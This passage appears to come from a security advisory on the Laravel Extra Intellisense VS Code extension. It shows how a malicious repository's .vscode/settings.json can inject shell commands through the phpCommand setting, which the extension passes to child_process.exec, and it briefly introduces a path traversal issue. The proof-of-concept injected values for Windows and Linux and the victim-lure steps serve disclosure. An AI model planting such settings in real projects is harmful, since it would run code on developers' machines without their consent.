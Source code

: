 ### Source Code Analysis
The vulnerability is present in the `runPhp` method in `helpers.ts`:

1. First, the extension reads the user configuration for the PHP command template:
```typescript
let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
```

2. Then it replaces the `{code}` placeholder with the PHP code to run:
```typescript
let command = commandTemplate.replace("{code}", code);
```

3. Finally, it executes the command using child_process.exec:
```typescript
cp.exec(command, { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined }, function (err, stdout, stderr) {...}
```

The extension runs periodically to get Laravel data (routes, views, configs, etc.), which means this command execution happens automatically without user interaction once the project is opened.

### Security Test Case
1. Create a malicious Laravel project structure with a basic Laravel installation
2. Add a `.vscode/settings.json` file with the following content:
```json
{
  "LaravelExtraIntellisense.phpCommand": "cmd.exe /c calc.exe && php -r \"{code}\""
}
```
3. For Linux targets, use:
```json
{
  "LaravelExtraIntellisense.phpCommand": "bash -c \"touch /tmp/pwned && php -r \\\"{code}\\\"\""
}
```
4. Host this malicious project on a public Git repository
5. Send the repository URL to the victim
6. When the victim clones and opens the project in VS Code with the Laravel Extra Intellisense extension enabled, the calculator application will launch (Windows) or a file will be created (Linux), demonstrating command execution
7. The attacker could replace the payload with more malicious commands to exfiltrate data or establish persistence

## 2. Path Traversal via basePath and basePathForCode Settings

### Description
The extension allows configuration of `basePath` and `basePathForCode` settings which are used when building file paths for inclusion in PHP code. These settings can be manipulated in a malicious repository's `.vscode/settings.json` file to cause the extension to include files from outside the intended project directory.
